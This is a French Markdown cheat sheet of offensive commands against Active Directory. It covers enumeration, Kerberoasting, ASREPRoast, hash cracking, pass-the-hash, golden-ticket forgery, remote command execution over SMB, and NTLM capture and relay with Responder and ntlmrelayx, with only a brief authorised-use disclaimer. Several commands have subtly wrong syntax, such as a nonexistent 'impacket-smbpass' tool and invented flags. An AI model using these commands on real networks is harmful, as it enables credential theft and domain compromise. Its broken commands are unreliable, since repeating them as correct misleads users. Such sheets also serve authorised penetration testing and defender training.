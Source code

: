 # active-directory.md

## cheat sheet - Active Directory

Ce document présente des commandes Linux pour énumérer, exploiter et attaquer Active Directory, à utiliser dans des environnements autorisés uniquement.


---

## 1. Prérequis

- Outils nécessaires : `impacket`, `ldapsearch`, `crackmapexec`, `kerbrute`, `bloodhound-python`.
- Installation : `sudo apt install impacket-scripts ldap-utils crackmapexec` (Kali) ou via GitHub.

---

## 2. Énumération de domaine

| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `ldapsearch -H ldap://<DC_IP> -x -b "DC=domaine,DC=local"` | Énumère les objets AD via LDAP                 |
| `crackmapexec smb <IP> -u "" -p ""`  | Teste les connexions SMB anonymes                   |
| `impacket-getadusers -all -dc-ip <DC_IP> -dc-domain domaine.local` | Liste tous les utilisateurs AD             |
| `enum4linux -a <DC_IP>`              | Énumération complète du domaine via SMB/LDAP        |
| `bloodhound-python -u <user> -p <pass> -d domaine.local -c All -dc <DC_IP>` | Collecte BloodHound (tous les objets) |

---

## 3. Attaques Kerberos

### Kerberoasting
| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `impacket-GetUserSPNs -dc-ip <DC_IP> -request -dc-domain domaine.local -u <user> -p <pass>` | Récupère les tickets SPN |
| `kerbrute userenum -d domaine.local --dc <DC_IP> users.txt` | Bruteforce des noms d’utilisateur          |

### ASREPRoast
| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `impacket-GetNPUsers domaine.local/ -dc-ip <DC_IP> -request -no-pass -usersfile users.txt` | Récupère les hashes ASREP |

---

## 4. Exploitation des hashes

| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `hashcat -m 13100 -a 0 hash.txt wordlist.txt` | Craque les hashes Kerberos (TGS)                  |
| `impacket-smbpass -u <user> -H <NTLM_hash> <DC_IP>` | Pass-the-Hash SMB                           |
| `impacket-psexec domaine.local/<user>:<pass>@<DC_IP>` | Exécute une commande via SMB avec creds    |

---

## 5. Attaques de tickets

### Pass-the-Ticket
| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `impacket-ticketer -nthash <NTLM_hash> -domain-sid <SID> -domain domaine.local -spn cifs/<DC>` | Crée un ticket Kerberos |
| `export KRB5CCNAME=/tmp/ticket.ccache; impacket-psexec -k <DC_IP>` | Utilise un ticket pour accès         |

### Golden/Silver Ticket
| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `impacket-ticketer -nthash <krbtgt_hash> -domain-sid <SID> -domain domaine.local -user Administrator` | Crée un Golden Ticket |

---

## 6. Exploitation SMB

| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `crackmapexec smb <IP> -u <user> -p <pass> -x "whoami"` | Exécute une commande via SMB             |
| `impacket-smbclient domaine.local/<user>:<pass>@<DC_IP>` | Connexion SMB interactive              |
| `smbmap -H <IP> -u <user> -p <pass>` | Liste les partages SMB accessibles                 |

---

## 7. Relais d’authentification

| **Commande**                         | **Description**                                      |
|--------------------------------------|-----------------------------------------------------|
| `sudo responder -I eth0`             | Capture les hashes NTLM via LLMNR/NBNS             |
| `impacket-ntlmrelayx -tf targets.txt -smb2support` | Relaye les hashes vers des cibles SMB       |

---

## 8. Précautions

- **Usage légal** : Tests uniquement sur des systèmes autorisés.
- **Dépendances** : Vérifiez les versions des outils (ex. : Impacket nécessite Python 3).
- **Compléments** : Associez avec `nmap`, `hydra`, ou `metasploit` pour plus d’options.
